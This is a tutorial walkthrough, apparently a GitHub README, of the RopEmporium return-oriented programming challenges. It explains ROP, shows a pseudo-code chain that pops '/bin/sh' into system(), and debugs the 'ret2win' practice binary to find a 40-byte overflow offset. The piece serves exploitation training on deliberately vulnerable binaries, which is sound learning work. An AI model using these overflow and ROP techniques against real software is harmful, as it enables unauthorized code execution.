


# RopEmporium Challenges Walkthrough

## Intro
The [RopEmporium](https://ropemporium.com) challenges are a series of ctf-like puzzles which are specifically designed for learning [Return Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming) or ROP. 

### Why ROP?
The [original stack smashing techniques](http://insecure.org/stf/smashstack.html) relied on overflowing a stack buffer with essentially two things: executable shellcode and the address of that shellcode on the stack. When aligned correctly, an attacker could cause a vulnerable program to pop that address into the instruction pointer register and therefore move to execution of the shellcode they had put on the stack.
Since then, various mitigations/defenses have been developed to make that original style of exploit infeasible. One of them is [marking the stack as non-executable](https://en.wikipedia.org/wiki/Executable_space_protection). The basic idea is that the OS will simply refuse to execute instructions from areas of memory marked non-executable and during compilation/linking, the program's stack is marked as non-executable. 
ROP is a [more recent](https://hovav.net/ucsd/talks/blackhat08.html) innovation which provides for taking over execution of an exploitable program without needing to jump to shellcode in the stack. Thje concept is that by looking for special sets of instructions (ROP gadgets) within the program's own code section and jumping to them in the correct order, an attacker has access to a "turing complete" language with which to work.
A ROP gadget is some set of assembly instructions which are followed by a `ret` or `jmp`, eg:
```
0x00400b73                 5f  pop rdi
0x00400b74                 c3  ret
```
By overwriting the instruction pointer such that it jumps to that `0x00400b73`, an attacker can cause the assembly instruction `pop rdi; ret;` to be executed. If, for example, there were also another piece of code in the program such as:
```
0x00400829      e8b2fdffff     call sym.imp.system
```
The following stack overflow (in psuedo-code style):
```
0x00400b73
"/bin/sh"
0x00400829
```
Would cause "/bin/sh" to be popped into the `rdi` register and then execution to jump to the system call. In x86_64, `rdi` is the first argument to a function, so `system("/bin/sh")` would be executed.

There's obviously a lot more to ROP than the above, but that's the sense of it. RopEmporium is great because it's a set of challenges that are focused strictly on ROP techniques. They present trivial stack overflows, but require various ROP techniques to actually chain the stack overflow to successful exploits.

I found that it was worth reading the [Beginner's Guide](https://ropemporium.com/guide.html).

### Setup
Getting the appropriate tooling setup on my machine was really helpful for me. I'm sure that it would be possible to complete these challenges with `gdb` and `objdump` and `readelf` and some calculations by hand, but a number of tools exist which can make your life easier, so why not use them. 

One thing to consider is whether you should do all of this on a separate virtual machine. Downloading and executing random binaries from the internet can be dangerous, and there's no guarantee that any of these tools are 100% safe. Additionally, though some of them *might* work on other platforms, they've all been designed to work on fairly recent linux. 

The first thing we'll want to do is install radare2. Radare2 is a reverse engineering toolkit that is often infuriating to learn and use, but which is very powerful and is free and open source. It *is* included in some linux package repositories, but those are often out of date and the program has gone through several major changes recently, so it's better to download directly and build from source.

The instructions from their [github](https://github.com/radare/radare2) page worked perfectly fine for me:
```
git clone https://github.com/radare/radare2.git
cd radare2
sys/user.sh
```

Next we'll want to setup pwntools. I generally prefer creating a python virtual environment, and then installing with `pip`:
```
mkvirtualenv venv
source venv/bin/activate
pip install pwntools
```

## Challenges

### ret2win

After downloading and unzipping the [challenge file](https://ropemporium.com/binary/ret2win.zip), we're given a `ret2win` binary. Calling it looks like:
```
$ ./ret2win                                                                                                                                                                              +6471 13:35 ❰─┘
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

>                 
```
If we enter in a large enough number of characters, we'll get a segfault:
```
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    30861 segmentation fault (core dumped)  ./ret2win
```
So that's a good sign that some "stack smash" might be possible.

Next we can use a few tools to get some info about the binary:
```
$ rabin2 -I ret2win                                                                                                                                                                      +6479 13:39 ❰─┘
arch     x86
baddr    0x400000
binsz    7071
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
static   false
stripped false
subsys   linux
va       true
```
Here we can see that 'nx' is set to true, which means that the linux non-executable stack enforcement is in effect.

From here we want to know where the stack overflow is occuring, how many bytes we have available, and how many we need to overflow in order to overwrite the instruction pointer.
We *could* go straight to our really fancy radare2 tool now, but there are also some decent standard linux tools we can use for now:
```
$ objdump -Mintel -d ret2win                                                                                                                                                        1 ⏎  +6485 13:49 ❰─┘

ret2win:     file format elf64-x86-64


Disassembly of section .init:

00000000004005a0 <_init>:
  4005a0:	48 83 ec 08          	sub    rsp,0x8
  4005a4:	48 8b 05 4d 0a 20 00 	mov    rax,QWORD PTR [rip+0x200a4d]        # 600ff8 <__gmon_start__>
  4005ab:	48 85 c0             	test   rax,rax
  4005ae:	74 05                	je     4005b5 <_init+0x15>
  4005b0:	e8 8b 00 00 00       	call   400640 <__gmon_start__@plt>
  4005b5:	48 83 c4 08          	add    rsp,0x8
  4005b9:	c3                   	ret    

... (A BUNCH OF LINES WE DON'T CARE ABOUT SKIPPED OVER) ...

0000000000400746 <main>:
  400746:	55                   	push   rbp
  400747:	48 89 e5             	mov    rbp,rsp
  40074a:	48 8b 05 0f 09 20 00 	mov    rax,QWORD PTR [rip+0x20090f]        # 601060 <stdout@@GLIBC_2.2.5>
  400751:	b9 00 00 00 00       	mov    ecx,0x0
  400756:	ba 02 00 00 00       	mov    edx,0x2
  40075b:	be 00 00 00 00       	mov    esi,0x0
  400760:	48 89 c7             	mov    rdi,rax
  400763:	e8 c8 fe ff ff       	call   400630 <setvbuf@plt>
  400768:	48 8b 05 11 09 20 00 	mov    rax,QWORD PTR [rip+0x200911]        # 601080 <stderr@@GLIBC_2.2.5>
  40076f:	b9 00 00 00 00       	mov    ecx,0x0
  400774:	ba 02 00 00 00       	mov    edx,0x2
  400779:	be 00 00 00 00       	mov    esi,0x0
  40077e:	48 89 c7             	mov    rdi,rax
  400781:	e8 aa fe ff ff       	call   400630 <setvbuf@plt>
  400786:	bf c8 08 40 00       	mov    edi,0x4008c8
  40078b:	e8 40 fe ff ff       	call   4005d0 <puts@plt>
  400790:	bf e0 08 40 00       	mov    edi,0x4008e0
  400795:	e8 36 fe ff ff       	call   4005d0 <puts@plt>
  40079a:	b8 00 00 00 00       	mov    eax,0x0
  40079f:	e8 11 00 00 00       	call   4007b5 <pwnme>
  4007a4:	bf e8 08 40 00       	mov    edi,0x4008e8
  4007a9:	e8 22 fe ff ff       	call   4005d0 <puts@plt>
  4007ae:	b8 00 00 00 00       	mov    eax,0x0
  4007b3:	5d                   	pop    rbp
  4007b4:	c3                   	ret    

00000000004007b5 <pwnme>:
  4007b5:	55                   	push   rbp
  4007b6:	48 89 e5             	mov    rbp,rsp
  4007b9:	48 83 ec 20          	sub    rsp,0x20
  4007bd:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  4007c1:	ba 20 00 00 00       	mov    edx,0x20
  4007c6:	be 00 00 00 00       	mov    esi,0x0
  4007cb:	48 89 c7             	mov    rdi,rax
  4007ce:	e8 2d fe ff ff       	call   400600 <memset@plt>
  4007d3:	bf f8 08 40 00       	mov    edi,0x4008f8
  4007d8:	e8 f3 fd ff ff       	call   4005d0 <puts@plt>
  4007dd:	bf 78 09 40 00       	mov    edi,0x400978
  4007e2:	e8 e9 fd ff ff       	call   4005d0 <puts@plt>
  4007e7:	bf dd 09 40 00       	mov    edi,0x4009dd
  4007ec:	b8 00 00 00 00       	mov    eax,0x0
  4007f1:	e8 fa fd ff ff       	call   4005f0 <printf@plt>
  4007f6:	48 8b 15 73 08 20 00 	mov    rdx,QWORD PTR [rip+0x200873]        # 601070 <stdin@@GLIBC_2.2.5>
  4007fd:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  400801:	be 32 00 00 00       	mov    esi,0x32
  400806:	48 89 c7             	mov    rdi,rax
  400809:	e8 12 fe ff ff       	call   400620 <fgets@plt>
  40080e:	90                   	nop
  40080f:	c9                   	leave  
  400810:	c3                   	ret    

0000000000400811 <ret2win>:
  400811:	55                   	push   rbp
  400812:	48 89 e5             	mov    rbp,rsp
  400815:	bf e0 09 40 00       	mov    edi,0x4009e0
  40081a:	b8 00 00 00 00       	mov    eax,0x0
  40081f:	e8 cc fd ff ff       	call   4005f0 <printf@plt>
  400824:	bf fd 09 40 00       	mov    edi,0x4009fd
  400829:	e8 b2 fd ff ff       	call   4005e0 <system@plt>
  40082e:	90                   	nop
  40082f:	5d                   	pop    rbp
  400830:	c3                   	ret    
  400831:	66 2e 0f 1f 84 00 00 	nop    WORD PTR cs:[rax+rax*1+0x0]
  400838:	00 00 00 
  40083b:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]
```

So there's a conveniently named `pwnme` function we should probably take a look at. And if we squint at line `4007fd`:
```
4007fd:	48 8d 45 e0          	lea    rax,[rbp-0x20]
400801:	be 32 00 00 00       	mov    esi,0x32
400806:	48 89 c7             	mov    rdi,rax
400809:	e8 12 fe ff ff       	call   400620 <fgets@plt>
```
we can see that we're calling `fgets` with `rax` as the location to write the bytes to and 0x32 as the number of bytes to write.
It's worth reading about [x86 64 and 32 bit calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions), but for our purposes, what we need to know is that in x86_64, `rdi` is used for the first argument to a function and `rsi` is used as the second.
`rax` has previously been set to `rbp-0x20` from the `lea` instruction, so we can see that the program is allowing `0x32 - 0x20` bytes to overflow past the base pointer.

To see this in action, now we can fire up `radare2` and debug the program as it's executing. What we'll want to do is create a `.rr2` script which specifies what we'd like to provide as `stdin`:
```
$ echo $(python -c 'print "A" * 100') > ./payload
$ echo '#!/usr/bin/rarun2' > ./ret2win.rr2
$ echo 'stdin=./payload' >> ./ret2win.rr2
```

Then we can run radare2 with the `rr2` script as an option, a debug flag, and the binary as its target:
```
$ r2 -r ./ret2win.rr2 -d ret2win

Process with PID 8740 started...
= attach 8740 8740
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
 -- How about Global Thermonuclear War?
[0x7fd6723e9ea0]> 
```

There's a new tagline every time you start up `radare2` and they certainly seem to think they're being cute with them.

The UI is really difficult to get a hold of, but a few things are useful to know:
* Pressing ctrl-d bunch of times in a row *usually* eventually gets you to a quit screen
* In the command line, a `?` will give you help output, and appending a `?` to a command will tell you more about it
* Typing `V` in the command line and hitting enter will take you to the "visual mode". Pressing `p` will move through the different visual mode outputs forwards, while `P` will take you backwards through them.
* In visual mode, pressing `:` will bring up a command line prompt. When that command prompt is up, pressing enter with nothing entered into the prompt will hide it and bring you back to visual mode.
* In visual mode you can use the standard vim keybindings for navigation.

We can see the disassembled output of the pwnme function with the following:
```
[0x7fd6723e9ea0]> pd @ sym.pwnme
  ;-- pwnme:
  0x004007b5      55             push rbp
  0x004007b6      4889e5         mov rbp, rsp
  0x004007b9      4883ec20       sub rsp, 0x20
  0x004007bd      488d45e0       lea rax, [rbp - 0x20]
  0x004007c1      ba20000000     mov edx, 0x20               ; 32
  0x004007c6      be00000000     mov esi, 0
  0x004007cb      4889c7         mov rdi, rax
  0x004007ce      e82dfeffff     call sym.imp.memset
  0x004007d3      bff8084000     mov edi, str.For_my_first_trick__I_will_attempt_to_fit_50_bytes_of_user_input_into_32_bytes_of_stack_buffer___What_could_possibly_go_wrong ; 0x4008f8 ; "For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;\nWhat could possibly go wrong?"
  0x004007d8      e8f3fdffff     call sym.imp.puts
  0x004007dd      bf78094000     mov edi, str.You_there_madam__may_I_have_your_input_please__And_don_t_worry_about_null_bytes__we_re_using_fgets ; 0x400978 ; "You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!\n"
  0x004007e2      e8e9fdffff     call sym.imp.puts
  0x004007e7      bfdd094000     mov edi, 0x4009dd
  0x004007ec      b800000000     mov eax, 0
  0x004007f1      e8fafdffff     call sym.imp.printf
  0x004007f6      488b15730820.  mov rdx, qword [obj.stdin]  ; [0x601070:8]=0
  0x004007fd      488d45e0       lea rax, [rbp - 0x20]
  0x00400801      be32000000     mov esi, 0x32               ; '2' ; 50
  0x00400806      4889c7         mov rdi, rax
  0x00400809      e812feffff     call sym.imp.fgets
  0x0040080e      90             nop
  0x0040080f      c9             leave
  0x00400810      c3             ret
```

We can then add a breakpoint inside the pwnme function and watch as our buffer overflows into the saved base pointer and the saved execution pointer:

```
[0x7fd6723e9ea0]> dcu 0x00400809
Continue until 0x00400809 using 1 bpsize
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> hit breakpoint at: 400809
[0x00400809]> 
```
`dcu` is "debug continue until" where we specify the instruction we want execution to continue until. It's quite handy :)
Now, we want to step instruction by instruction so we can see exactly what happens when the call to `fgets` occurs.
I find at this point it's easier to go into the visual mode which includes assembly, register state, and the stack:


Pressing `S`(capital `S` for "step over" the fgets call), will show the result of the buffer writing 0x32 bytes when only 0x20 were allocated:


You can see that the character "A" was written onto the stack 49 times with one null terminating byte. 50 decimal = 0x32 hex - which we can see from the previous dissasembly is the argument given to the `fgets` call from the `esi` register.

Pressing `s` twice more will step up to the `ret` call so that we can see the program execution state before the `ret` is executed:


The bytes shown at the top are now in the area where the saved instruction pointer should have been, so when the `ret` is executed, the instruction pointer will contain 8 of those bytes, and we'll jump to whatever address is there. In this case that will be 0x4141414141414141. 
If this were a 32bit executable, the instruction pointer would jump to the 0x41414141 address and the segfault would explain that the instruction pointer contained that value. However, in 64bit mode, because of design decisions regarding which bits are actually used, the code section can't go above 0x00007fffffffffff. It's worth [reading about why](https://en.wikipedia.org/wiki/X86-64#Virtual_address_space_details), but I won't go more into it here.
What that means for us is that when the cpu sees that the next instruction is a value higher than the limit of the code section, it throws an exception and doesn't even attempt to set the instruction pointer to that value.
We can see the exception that is thrown when we run the program outside of radare:
```
$ ./ret2win < payload                                                                                                                                                                           +6542 16:14 ❰─┘
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> [1]    22264 segmentation fault (core dumped)  ./ret2win < payload

$ dmesg | tail
[368839.829075] traps: ret2win[22264] general protection ip:400810 sp:7ffc962a3038 error:0 in ret2win[400000+1000]
```

So now that we know that we can overflow into the saved return address pointer, we have to figure out how far into the buffer we're writing is the place where the return address needs to get written. 
We have enough information from the assembly to know, so let's look at the code and try to figure it out and then we can use some tooling to confirm our intuitions.
The buffer starts at address `[rbp - 0x20]`. We want to overwrite both the saved base pointer and then the return address pointer, we're on a 64bit system, which is 8 bytes (8 bits in a byte * 8 bytes = 64 bits) so we'll want to start writing our return address at 0x20 + 0x08 bytes into the buffer.
0x20 + 0x08 = 0x28 = 40 in decimal.

To confirm that is indeed the case, let's use some tools to check. We can generate a [De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), pass that as stdin to the program, and then check which value would be put into the execution pointer. 
Because a De Bruijn sequence won't repeat n length patterns, knowing an n length pattern allows us to know the distance into the sequence the pattern occurs.
It's a little confusing, but much clearer if you walk through and use it. We'll use pwntools to generate a sequence:

```
$ pwn cyclic 100 > payload 
$ r2 -r ret2win.rr2 -d ret2win
Process with PID 25718 started...
= attach 25718 25718
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
 -- Wow, my cat knows radare2 hotkeys better than me!
[0x7fb06a703ea0]> 
[0x7fb06a703ea0]> dc
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 ret=0
```
If we enter visual mode now, we can see the next values on the stack which would get written into the instruction pointer:


Entering that back into pwntools cyclic command gives us 40!
```
$ pwn cyclic -l kaaa                                                                                                                                                                     +6581 16:44 ❰─┘
40
```
So that's nice :) And now we know that we want to write our return address into the buffer with a 40byte offset.


